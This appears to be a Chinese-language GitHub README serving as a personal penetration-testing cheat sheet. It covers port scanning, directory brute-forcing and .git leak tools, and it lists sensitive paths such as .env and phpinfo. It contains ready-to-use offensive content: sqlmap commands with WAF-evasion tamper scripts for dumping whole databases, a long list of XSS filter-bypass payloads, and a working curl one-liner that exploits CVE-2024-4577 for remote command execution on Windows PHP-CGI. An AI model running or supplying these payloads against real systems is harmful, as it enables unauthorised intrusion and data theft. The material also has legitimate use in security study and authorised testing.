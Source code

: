 # Hitmap-ver.1

## 掃描、資訊蒐集

### 工具
  - rustscan
    -  可快速掃出目標開了哪些 Port
    -  Kali 上面沒有，亦無法直接 apt install
    -  安裝 Step
        - Step 1. 複製網址到Kali的瀏覽器進行下載
            ```sh
            https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb
            ```
        - Step 2. 開終端機
            ```sh
            cd Downloads
            ls
            ```
        - Step 3. 把下載的檔案開啟權限
            ```sh
            sudo chmod +x rustscan_2.0.1_amd64.deb
            ```
        - Step 4. 安裝他的套件
            ```sh
            sudo dpkg -i rustscan_2.0.1_amd64.deb
            ```
        - Step 5. 完成安裝 or 出現報錯
          - 沒報錯跳過這步 
            ```sh
            sudo apt update
            sudo apt upgrade
            ```
    - **使用方法**
      ```zsh
      rustscan -a ip or domain
      ```
      ![image](https://github.com/Kazusa613732/Hitmap-ver.1/blob/main/img/rustscan1.png)
      
  - nmap
    - **使用方法**
      - 作業系統、服務版本
        ```sh
         nmap -A ip or domain
        ```
      - 指定port
        ```sh
         nmap -A -p22,80,1000 ip
        ```
      - 很多...未來待補
        
  - nuclei
    -  弱掃工具（效果待確）
    -  Kali 上面沒有，可直接 sudo apt install nuclei
    -  **使用方法**
        ```sh
        nuclei -u url 
        ```
  - Wappalyzer（Chrome插件）
    -  可以看到網站是用那些框架、套件、部分版本
  - DotGit（Chrome插件）
    -  可以偵測到有沒有.git洩漏
    -  有的話，可以透過 Kali 安裝 Githack 來查看
    -  安裝
       ```sh
       git clone https://github.com/lijiejie/GitHack.git
       ```
    - **使用方法**
        ```sh
        python Githack.py URL/.git
        ```
## 目錄爆破

### 工具
  - dirsearch
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install dirsearch
      ```
    - **使用方法**
      ```sh
       dirsearch -u "url"
      ```
  - gobuster
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install gobuster
      ```
    - **使用方法**
      - 待補
### 不該出現的頁面
  - .env
  - phpinfo
  - .git
  - CKfinder
  - cgi-bin
  - upload.php（進去看有沒有可以try的點）
  - login.php（進去看有沒有可以try的點）
  - .svn
  - etc..
  - 感覺奇怪的都去看

## Injection
### CRLF injection
  - [筆記](https://www.notion.so/CRLF-Injection-1b9997876c1380e4bc7cccad27ecd62f?pvs=4)
### SQL injection
  - [筆記](https://www.notion.so/SQL-Injection-1ba997876c138098bed3c44d005558b3?pvs=4)
  - 最最基本檢測方式
    - 在參數後輸入'進行測試，出現報錯、500error，基本上可以直接用SQLmap進行確認了
    - 利用不同編碼bypass
    - 'AND1=1，可測錯誤注入、盲注
  - SQLmap
    - **指令**
        ```sh
        #可以dump出所有資料庫名稱
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash --dbs
        #可以dump某一資料庫的資料表
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 --tables
        #可以dump出某一資料庫、資料表的欄位
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 --columns
        #可以dump出某一資料庫、資料表的欄位內容
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 -C c欄,c欄 --dump
        #其他參數
        --delay 1（延遲一秒）、--level 1~5、--risk 1~5（更多注入手段會更久）
        ```
  ### XSS
   - 常見Payload
       ```js
         #Basic
        <script>alert('XSS')</script>
        <scr<script>ipt>alert('XSS')</scr<script>ipt>
        "><script>alert('XSS')</script>
        "><script>alert(String.fromCharCode(88,83,83))</script>
        <script>\u0061lert('22')</script>
        <script>eval('\x61lert(\'33\')')</script>
        <script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
        <object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
        
        #img
        <img src=x onerror=alert('XSS');>
        <img src=x onerror=alert('XSS')//
        <img src=x onerror=alert(String.fromCharCode(88,83,83));>
        <img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
        <img src=x:alert(alt) onerror=eval(src) alt=xss>
        "><img src=x onerror=alert('XSS');>
        "><img src=x onerror=alert(String.fromCharCode(88,83,83));>
        <><img src=1 onerror=alert(1)>
        
        #svg
        <svgonload=alert(1)>
        <svg/onload=alert('XSS')>
        <svg onload=alert(1)//
        <svg/onload=alert(String.fromCharCode(88,83,83))>
        <svg id=alert(1) onload=eval(id)>
        "><svg/onload=alert(String.fromCharCode(88,83,83))>
        "><svg/onload=alert(/XSS/)
        <svg><script>alert('33')
        <svg><script>alert&lpar;'33'&rpar;
        
        #div
        <div onpointerover="alert(45)">MOVE HERE</div>
        <div onpointerdown="alert(45)">MOVE HERE</div>
        <div onpointerenter="alert(45)">MOVE HERE</div>
        <div onpointerleave="alert(45)">MOVE HERE</div>
        <div onpointermove="alert(45)">MOVE HERE</div>
        <div onpointerout="alert(45)">MOVE HERE</div>
        <div onpointerup="alert(45)">MOVE HERE</div>
       ```
  ### XXE Injection
  ## CVE 2024-4577
  - 此弱點影響安裝於 Windows 作業系統上所有的 PHP 版本
    - PHP 8.3 < 8.3.8
    - PHP 8.2 < 8.2.20
    - PHP 8.1 < 8.1.29
  - 常見之 Apache HTTP Server 加上 PHP 組合
  - 所有版本的 XAMPP for Windows 安裝也預設受此弱點影響
  - **Payload&RCE**
      ```sh
      curl -o - "URL/php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input" --data '<?=`whoami & dir`;die();?>'
      ```
      - PoC
        ```sh
        https://github.com/watchtowrlabs/CVE-2024-4577
        ```
## LFI

## RF&一堆教材文件
 - https://github.com/swisskyrepo/PayloadsAllTheThings
